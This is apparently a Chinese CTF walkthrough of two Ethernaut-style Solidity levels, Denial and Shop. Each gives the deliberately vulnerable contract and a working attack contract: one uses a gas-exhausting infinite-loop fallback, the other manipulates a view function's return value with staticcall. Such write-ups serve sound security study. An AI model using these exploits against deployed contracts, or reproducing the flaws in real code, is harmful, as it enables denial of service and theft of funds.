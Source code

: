 ### 第二十题 Denial
### 题目
这是一个简单的钱包，会随着时间的推移而流失资金。您可以成为提款伙伴，慢慢提款。
通关条件： 在owner调用withdraw()时拒绝提取资金（合约仍有资金，并且交易的gas少于1M）。
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances
    //允许任何人设置一个新的提款合作伙伴地址
    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        //address(this)表示当前合约的地址。具体来说，它将当前合约实例转换为一个address类型
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
### 解题思路&过程
1. partner.call在调用call函数时没有检查返回值，也没有指定gas，这就导致如果外部调用是一个gas消耗很高的操作的话，就会使得整个交易出现out of gas的错误，从而revert，也自然不会执行owner.transfer操作。
2. 部署合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract HackDenial {
    address public target;
    constructor (address payable _addr) public payable {
        target=_addr;
        target.call(abi.encodeWithSignature("setWithdrawPartner(address)", address(this)));
    }

    fallback() payable external {
        while(true){
        }
    }
}
```
### 第二十一题 Shop
### 题目
您能在商店以低于要求的价格购买到商品吗？
### 提示
- shop合约预计由买家使用
- 了解view函数的限制
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    //view只读
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
### 解题思路&过程
1. 关键点在isSold变量，在第一次调用price函数时，这个变量为false，而第二次为true，利用这一点，我们可以完成判断返回。但是由于view函数不允许低级的call，所以我们无法使用call调用isSold函数，但solidity有一个staticcall不会改变状态，并且可以在view函数内部使用，替代一下即可。
2. 部署合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface Buyer {
  function price() external view returns (uint);
}
contract AttackShop is Buyer {
    address public victim;
    constructor(address _victim) {
        victim = _victim;
    }
    function buy() public {
        bytes memory payload = abi.encodeWithSignature("buy()");
        victim.call(payload);
    }
    function price() public view override returns(uint) {
        bytes memory payload = abi.encodeWithSignature("isSold()");
        (, bytes memory result) = victim.staticcall(payload);
        bool sold = abi.decode(result, (bool));
        return sold ? 1 : 101;
    }
}
```
4. 直接buy（）
5. 提交
